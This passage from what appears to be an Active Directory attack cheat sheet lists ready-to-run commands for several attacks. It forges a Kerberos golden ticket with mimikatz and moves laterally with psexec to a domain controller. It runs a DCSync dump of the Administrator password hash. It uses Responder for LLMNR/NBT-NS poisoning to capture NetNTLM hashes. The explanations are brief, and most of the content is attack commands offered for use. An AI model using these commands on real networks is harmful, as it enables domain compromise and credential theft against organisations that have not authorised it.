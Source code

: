 -> Exploitation
```powershell
mimikatz.exe "kerberos::purge" "kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt" "misc::cmd"

psexec.exe \\dc1 cmd.exe
```

### DCSync Attack
-> The DCSync attack consists of requesting a replication update with a domain controller and obtaining the password hashes of each account in Active Directory without ever logging into the domain controller.
```powershell
./mimikatz.exe "lsadump::dcsync /user:Administrator"
```

### NetNTLM Authentication Exploits with SMB - LLMNR Poisoning - Capturing hash in responder
Responder allows you to perform Man-in-the-Middle attacks by poisoning responses during NetNTLM authentication, making the client talk to you instead of the real server it wants to connect to.
On a real lan network, the responder will attempt to poison all Link-Local Multicast Name Resolution (LLMNR), NetBIOS Name Server (NBT-NS), and Web Proxy Auto-Dscovery (WPAD) requests detected. NBT-NS is the precursor protocol to LLMNR.
```bash
responder -I eth0 -v
```
